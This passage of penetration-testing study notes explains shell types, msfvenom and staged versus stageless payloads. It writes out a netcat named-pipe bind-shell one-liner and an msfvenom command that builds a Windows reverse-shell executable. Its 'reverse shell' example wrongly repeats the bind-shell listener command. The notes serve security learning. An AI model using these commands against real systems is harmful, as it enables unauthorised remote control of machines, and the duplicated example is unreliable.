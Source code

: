 ### Non-Interactive

Limited to using programs which do not require user interaction in order to run properly. The majority of simple reverse and bind shells are non-interactive.

## Common Shell Payloads

On Linux, we use this code to create a listener for a bind shell: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`.

- The command first creates a named pipe at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe.
- A very similar command can be used to send a netcat reverse shell: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages.

## msfvenom

Msfvenom: The one-stop-shop for all things payload related. Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells.

The standard syntax for msfvenom: `msfvenom -p <PAYLOAD> <OPTIONS>`.

- To generate a Windows x64 Reverse Shell in an exe format: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`.
  - `-f` specifies the output format.
  - `-o` the output location and filename for the generated payload.
  - `LHOST=<IP>` specifies the IP to connect back to.
  - `LPORT=<PORT>` the port on the local machine to connect back to. This can be anything between 0-65535 that isn't already in use. However, the ports below 1024 are restricted and require a listener running with root privileges.

### Staged Payloads

Staged payloads are sent in two parts.

1. Stager - A piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead, it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions.

- The payloads are split into two parts - a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener - usually the Metasploit multi/handler.

### Stageless Payloads

Stageless payloads are more common where they are entirely self-contained. There is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

### Meterpreter
